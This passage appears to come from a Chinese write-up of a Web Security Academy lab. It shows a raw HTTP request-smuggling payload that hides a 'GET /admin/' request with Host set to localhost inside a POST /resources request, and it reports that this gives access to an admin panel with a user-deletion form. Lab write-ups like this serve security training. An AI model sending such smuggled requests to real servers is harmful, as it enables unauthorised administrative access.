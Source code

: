 [![](assets/1705301772-f3ba7558ccc453d1608c5f15fe50c04d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184230-9e15d096-b2c9-1.png)  
随后更改主机头为localhost

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91


GET /admin/ HTTP/1.1
Host: localhost
```

[![](assets/1705301772-bfc43759f0e537b30166a0acd4d02eb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184253-ab89aa90-b2c9-1.png)  
重新发送请求并在61秒后可以看到已经能成功访问管理面板，观察管理面板可以看到这里包含一个用于删除给定用户的HTML表单，记下以下详细信息：
